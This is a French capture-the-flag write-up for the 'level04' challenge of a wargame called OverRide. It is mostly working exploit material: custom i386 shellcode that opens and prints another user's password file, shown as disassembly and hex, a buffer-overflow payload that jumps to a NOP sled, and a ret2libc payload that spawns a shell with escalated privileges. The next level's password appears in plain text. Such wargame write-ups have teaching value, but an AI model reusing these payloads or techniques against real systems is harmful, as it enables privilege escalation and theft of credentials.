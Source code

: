 # Level04

Nous remarquons la presence d'un fork, ainsi que des check, qui arrete le programme,
si on execve est appele.
Nous devons realiser notre propre shellcode file reader architecture i386,
il fera un open, read et write sur le fichier .pass du level suivant.

Le code asm est disponnible dans le fichier shellcode_file_reader.s dans le dossier resources.

Nous l'assemblons avec nasm et le linker ld pour pouvoir recuperer le shellcode en hexa.

```
nasm -f elf32 ./resources/shellcode_file_reader.s -o ./resources/shellcode.o
ld -m elf_i386 ./resources/shellcode.o -o ./resources/shellcode
chmod +x ./resources/shellcode
```

Ensuite nous recuperons sont code en hexa grace a obj dump.

```
$ objdump -d resources/shellcode

resources/shellcode:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	31 c9                	xor    %ecx,%ecx
 8049002:	f7 e1                	mul    %ecx

08049004 <open>:
 8049004:	b0 05                	mov    $0x5,%al
 8049006:	51                   	push   %ecx
 8049007:	68 70 61 73 73       	push   $0x73736170
 804900c:	68 30 35 2f 2e       	push   $0x2e2f3530
 8049011:	68 65 76 65 6c       	push   $0x6c657665
 8049016:	68 72 73 2f 6c       	push   $0x6c2f7372
 804901b:	68 2f 75 73 65       	push   $0x6573752f
 8049020:	68 68 6f 6d 65       	push   $0x656d6f68
 8049025:	68 2f 2f 2f 2f       	push   $0x2f2f2f2f
 804902a:	89 e3                	mov    %esp,%ebx
 804902c:	cd 80                	int    $0x80

0804902e <read>:
 804902e:	93                   	xchg   %eax,%ebx
 804902f:	91                   	xchg   %eax,%ecx
 8049030:	b0 03                	mov    $0x3,%al
 8049032:	66 ba ff 0f          	mov    $0xfff,%dx
 8049036:	42                   	inc    %edx
 8049037:	cd 80                	int    $0x80

08049039 <write>:
 8049039:	92                   	xchg   %eax,%edx
 804903a:	b3 01                	mov    $0x1,%bl
 804903c:	c1 e8 0a             	shr    $0xa,%eax
 804903f:	cd 80                	int    $0x80

08049041 <exit>:
 8049041:	93                   	xchg   %eax,%ebx
 8049042:	cd 80                	int    $0x80

```

Ce qui nous donne :
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80
```

Nous devons maintenant trouver l'offset pour injecter le shellcode ainsi que son adresse.
On lance gdb normalement puis on le passe en mode debugging forks child:

```
set follow-fork-mode-child
```

De la meme maniere qu'auparavant on trouve l'offset a 156 bytes.

on export tout d'abord le shellcode dans l'env comme si dessous:
```
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"
```

puis on trouve l'adressse du NOP le plus proche du shellcode:
```0xffffd8b0```

Place a l'injection:
```
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04
```

# Methode 2 (ret2libc)

Création du ret2libc, pour cela nous avons besoin de l'adresse de `system` et de `exit` et de l'adresse de `/bin/sh` dans la libc.
```
$ gdb ./level04
(gdb) b main
(gdb) r
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
...

(gdb) info function system                                                                                                                                    [17/354]
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc map
process 1996
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) quit
```
Ensuite on va composer notre payload : padding + system + exit + /bin/sh
```
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k

id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
>>>>>>> 882eb52cc0f57d130ddafa48770b0dec8f0dc5d9
